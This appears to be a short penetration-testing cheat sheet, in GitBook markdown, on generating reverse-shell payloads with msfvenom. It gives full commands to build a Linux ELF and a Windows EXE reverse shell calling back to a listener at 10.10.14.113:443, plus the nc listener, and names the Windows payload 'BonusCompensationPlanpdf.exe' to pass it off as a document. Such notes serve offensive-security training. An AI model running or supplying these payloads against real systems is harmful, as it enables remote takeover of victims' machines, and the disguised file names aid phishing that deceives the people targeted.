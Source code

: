 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Crafting Payloads with MSFvenom

list all the available payloads

```
msfvenom -l payloads
```

### Building A Stageless Payload

Build It

{% code fullWidth="true" %}
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
{% endcode %}

NC Connection

```
sudo nc -lvnp 443
```

### Building a simple Stageless Payload for a Windows system

{% code fullWidth="true" %}
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
{% endcode %}

